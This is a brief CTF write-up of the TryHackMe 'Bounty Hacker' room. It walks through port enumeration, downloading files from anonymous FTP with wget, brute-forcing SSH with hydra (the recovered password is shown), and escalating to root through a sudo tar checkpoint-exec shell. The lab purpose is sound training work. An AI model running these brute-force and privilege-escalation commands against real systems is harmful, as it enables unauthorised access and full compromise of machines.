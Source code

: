 # Bounty Hacker (THM)

- https://tryhackme.com/room/cowboyhacker
- March 2, 2023
- easy

---

## Enumeration

- Nmap Initial

1. 21/ftp vsftpd 3.0.3
   - anonymous FTP login allowed
2. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
3. 80/http Apache httpd 2.4.18 ((Ubuntu))
   - server - Apache/2.4.18 (Ubuntu)

- check ftp anonymous login
  - nothing found
  - 229 Entering Extended Passive Mode (|||9411|) (I don't know why I get that error)
- get files from ftp server (find a command to download from ftp server from hacktricks)

```sh
wget -m --no-passive ftp://anonymous:anonymous@$IP
```

- get two files
  - locks.txt
  - task.txt
- name -> lin
- locks.txt file may be password files
- brute force ssh with user `lin` with password from locks.txt

```sh
hydra -l lin -P from_ftp/locks.txt ssh://$IP
# login: lin   password: RedDr4gonSynd1cat3
```

- `sudo -l` for lin

```
Matching Defaults entries for lin on bountyhacker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User lin may run the following commands on bountyhacker:
    (root) /bin/tar
```

- from gtfobins, sudo for tar

```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

- get root access

---
